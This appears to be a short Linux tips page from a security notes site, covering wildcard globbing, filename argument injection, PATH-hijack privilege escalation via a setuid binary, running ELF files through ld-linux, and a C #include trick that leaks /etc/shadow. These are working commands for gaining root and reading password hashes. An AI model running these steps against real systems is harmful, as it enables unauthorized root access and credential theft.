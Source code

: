 ```yaml
---
title: "Linux"
description: "Linux tips"
date: 20/11/2019
categories:
 - Linux
tags:
 - linux
 - bash
 - privesc
---
```


### Wildcard

```bash
$ ls -al /*a*/www/*l/*la*/*la*.*
#        /var/www/html/flag/flag.php
```

```bash
$ ls
-al
$ ls *
-rw-rw-r-- 1 root root 0 jun 28 21:38 -al
```


### Privilege Escalation using PATH variables

Here is a simple script to exploit privesc on a binary/script with setuid.

First you search for vulnerable files:

```bash
find / -perm -u=s -type f 2>/dev/null
```

If the script use commands with a relative path then. With `echo` for instance:

```bash
echo "#!/bin/bash\nchmod u+s /bin/bash" > echo
chmod u+x echo
PATH `pwd`:$PATH ./vuln_binary
```

This script add the setuid bit to `/bin/bash`:

```bash
#!/bin/bash
chmod u+s /bin/bash
```

Then you run it with the following command:

```bash
/bin/bash -p
```


### Run ELF using ld-linux

You can run an ELF binary without the `x` flag using `ld-linux`:

```bash
# From: https://twitter.com/leonjza/status/1201946856005259264
$ cp /bin/ls .
$ ls
ls
$ chmod -x ls
$ ls -l ls
-rw-r--r-- 1 root root 126584 Dec  4 08:32 ls
$ ./ls
-bash: ./ls: Permission denied
$ /lib64/ld-linux-x86-64.so.2 ./ls
ls
```

It can be useful when you can't set the bit or you have a capability on `ld-linux` set.


### Compile C/C++ including a file

From [@Poita_](https://twitter.com/Poita_/status/1198413809670598662) and [hboeck](https://blog.hboeck.de/archives/898-include-etcshadow.html). You can include a file or even `/dev/stdin`
when you compile a file. So, it's possible to include `/etc/shadow` if you have
the correct permissions on the server. Hboeck explains that it's possible to get
the file from online compiler ([cpp.sh](http://cpp.sh/) may work).


```c
#include <stdio.h>
int main() {
  printf("%s\n",
    #include </etc/shadow>
  )
  return 0;
}
```

```bash
$ g++ a.cpp && ./a.out
```
